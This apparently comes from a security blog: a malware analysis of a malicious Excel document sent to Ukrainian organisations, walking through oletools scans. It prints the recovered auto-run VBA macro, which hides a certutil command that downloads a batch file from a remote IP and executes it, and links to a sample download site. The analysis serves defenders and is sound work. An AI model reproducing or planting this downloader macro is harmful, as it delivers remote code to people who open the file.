







[Back to Main Page](../index.html) 

# An analysis of the excel targeting various ukrainian organizations


Before reading this post, it is important to know that our approach can be generalized to any other malicious documents, and probably be used in the future again. These documents were sent to Ukrainian organizations in the context of the military conflict between Russia and Ukraine. Before analyzing this malware, we make sure to use a Virtual Machine for all further steps.

## Analysis of the .xlsx

The first file we will be analyzing is an Excel document that has been spreaded via various ways, including basic e-mails. There are multiple ways to get access and loading it, one of these would be checking for the SHA and downloading the sample [here](https://malshare.com/sample.php?action=detail&hash=6903940ad6060424129a81364b2e2e97). Malshare allows you to download different software by accessing it with your own API key.

Popular scanners or EDR systems are getting instant hits on this one, for example SentinelOne.



In the managment console it is identified as downloader, which is correct as we will see later on.



Microsoft Defender for Endpoints, which has improved over the past few years, also gets an instant hit.



After downloading the file and allowing it to operate through any protection software we can investigate further. We will use [oleid](https://github.com/decalage2/oletools) to check if there Microsoft OLE2 files (also called Structured Storage, Compound File Binary Format or Compound Document File Format), such as Microsoft Office documents or Outlook messages, mainly for malware analysis, forensics and debugging. 

This time, I use Windows, though everything is possible on Kali or any other Linux distribution. On Windows you need to make sure to add the python PATH variables. 

```
pip3 install -U --user https://github.com/decalage2/oletools/archive/master.zip
pip3 install XLMMacroDeobfuscator
cd downloads
oleid malware.xlsm
```



Somehow, either SentinelOne or MDE removed the macro even after allowing the software. So I redownloaded it and started the scan on the file directly again. This time we get a supicious macro hit.



Suspicious macros can be checked with olevba and hand us more information of things that are happening here.

```
olevba malware.xlsm
```



Here we will find out that the tool detected a malicious macro that will run when macros are enabled.

```vba
Private Sub Workbook_Open()
PID = Shell("cmd /c certutil.exe -urlcache -split -f ""http://3.112.243.28/net/Ugrfa.bat"" Opcbuyjhg.exe.exe && Opcbuyjhg.exe.exe", vbHide)
End Sub
```

The certutil.exe is a legitimate software, but used to download a binary (Ugrfa.bat) from a remote server and run it. The URL is classified as malicious by multiple vendors per VirusTotal.



There is basically a batch file on there, neat. Not so neat is the fact that at this time I have not got access to this .bat file or any identification of how the process would work further as any linked IPs to the group are dead.

## Conclusion

Office documents have over many decades been used to launch malware, often through macros, embedded content or exploits. Embedded ‘executable’ content is usually very visible, and with most exploits, even if you don’t know exactly what is being exploited, the presence of strange data in strange locations is usually a good giveaway that something is going on.

